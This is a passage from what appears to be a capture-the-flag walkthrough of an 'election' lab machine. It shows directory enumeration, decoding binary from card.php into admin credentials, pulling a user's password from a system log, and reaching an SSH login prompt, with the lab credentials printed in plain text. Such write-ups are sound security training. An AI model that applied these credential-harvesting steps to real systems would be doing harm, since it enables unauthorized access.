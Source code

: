 ```
/admin (Status: 301)
/index.php (Status: 200)
/lib (Status: 301)
/languages (Status: 301)
/js (Status: 301)
/card.php (Status: 200)
```
# Binary to Ascii
The `card.php` contains the binary code.
```
$curl http://192.168.1.8/election/card.php
00110000 00110001 00110001 00110001 00110000 00110001 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110001 00110000 00110000 00100000 00110000 00110000 00110000 00110000 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110000 00110000 00100000 00110000 00110001 00110001 00110000 00110000 00110000 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110000 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110001 00110001 00110001 00110000 00110000 00110000 00100000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110000 00110000 00110000 00110000 00110001 00100000 00110000 00110001 00110000 00110000 00110000 00110000 00110000 00110000 00100000 00110000 00110000 00110001 00110000 00110000 00110000 00110001 00110001
```
Convert binary to ascii and we get credentials.
![1](/assets/img/election/bta1.png)
![2](/assets/img/election/bta2.png)

```
user : 1234
pass : Zxc123!@#
```
# Election Admin Panel
Use this to access election panel. Under `system info` we get log file.
![log](/assets/img/election/log.png)
The log file contains credentials.
```
$cat system.log 
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
```
```
username : love
password : P@$$w0rd@123
```
# SSH
We can use this credentials to access SSH.
```
$ssh love@192.168.1.8
love@192.168.1.8's password: 
```